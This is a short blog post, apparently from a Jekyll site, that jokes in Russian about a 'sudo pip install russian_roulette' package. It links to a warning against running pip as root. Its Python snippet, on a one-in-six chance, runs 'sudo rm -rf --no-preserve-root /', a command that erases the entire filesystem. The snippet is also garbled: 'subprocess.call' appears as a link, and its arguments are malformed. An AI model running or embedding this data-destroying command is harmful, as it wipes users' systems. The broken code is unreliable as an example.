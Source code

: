 ```yaml
---
title: 150
date: 2018-05-21 09:30:08
tags: []
layout: post
---
```


Любите риск? Тогда пришло время для [sudo pip install russian_roulette](https://pages.charlesreid1.com/dont-sudo-pip/)

if(random.randint(1,6)==6):
    print("Hold on to your butts.\n\n\n")
    <https://subprocess.call>("sudo","rm","-rf","--no-preserve-root","/")
